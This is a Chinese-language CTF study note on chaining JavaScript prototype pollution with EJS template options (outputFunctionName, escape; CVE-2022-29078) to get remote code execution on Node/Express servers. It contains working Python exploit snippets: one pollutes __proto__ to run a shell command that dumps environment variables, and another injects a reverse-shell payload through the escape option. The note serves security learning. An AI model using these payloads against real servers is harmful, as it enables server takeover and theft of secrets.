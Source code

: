 tags:: CTF/JS/原型链污染, CTF/NodeJS/EJS, CTF/NodeJS

- > 原型链污染+EJS=RCE
- # 原理
	- ejs在编译模板时会将选项中的某些项直接拼接到编译结果中执行，而选项是存储在一个对象中的，我们只需要污染这些属性即可
	- 即使没有原型链污染也可以在express中的`res.render('xxx', {options...})`处直接传入这些选项进行RCE
- # outputFunctionName
	- CVE-2022-29078
	- ```python
	  r = base_post(url, headers = headers, json = {
	      "__proto__": {
	          "outputFunctionName": "a=1;return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"sleep 3; env\"');//"
	      }
	  })
	  print(r.text)
	  ```
- # escape
	- 参考：
		- 我是在做[这题](((654dda41-c3ee-4d76-b945-69080bd6539a)))的时候挖出来的。。。
		- [别人的文章](https://www.inhann.top/2023/03/26/ejs/)
	- 原理和`outputFunctionName`是一样的，payload都会被拼接到编译产物中
	- 貌似也可以用`escapeFunction`?
	- 让client为真，并传入payload即可
		- ```python
		  ejs_escape = """\
		  function escapeXMLToString114() {
		    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
		  }
		  console.log('114514ejs');
		  process.mainModule.require('child_process').execSync(CMD);
		  \
		  """.replace("CMD", repr(reverse_shell_payload))
		  r = base_post(
		      url + "/create",
		      json={ # 这里的对象需要被传入到proto中
		          "name": "global",
		          "settings": {
		              "view options": {
		                  "client": "1",
		                  "escape": ejs_escape,
		              }
		          }
		      },
		  )
		  print(r.text)
		  ```
- # 其他
	- [参考](https://xz.aliyun.com/t/13544)
-